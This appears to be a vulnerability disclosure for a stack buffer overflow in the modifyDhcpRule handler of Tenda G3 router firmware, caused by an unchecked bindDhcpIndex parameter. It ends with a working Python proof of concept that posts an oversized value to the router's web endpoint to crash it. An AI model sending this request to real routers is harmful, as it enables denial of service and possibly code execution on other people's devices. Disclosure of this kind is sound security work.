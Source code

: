 # Tenda G3 modifyDhcpRule
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow

Firmware download address ： https://www.tenda.com.cn/material/show/3107
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the modifyDhcpRule function.
### Vulnerability details
Stack-based buffer overflow in function modifyDhcpRule on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function modifyDhcpRule line 35, it reads in a user-provided parameter, and the variable bindDhcpIndex is passed to the sprintf function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/modifyDhcpRule-1.png)
![](images/modifyDhcpRule-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/modifyDhcpRule'
payload = {
    "bindDhcpIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
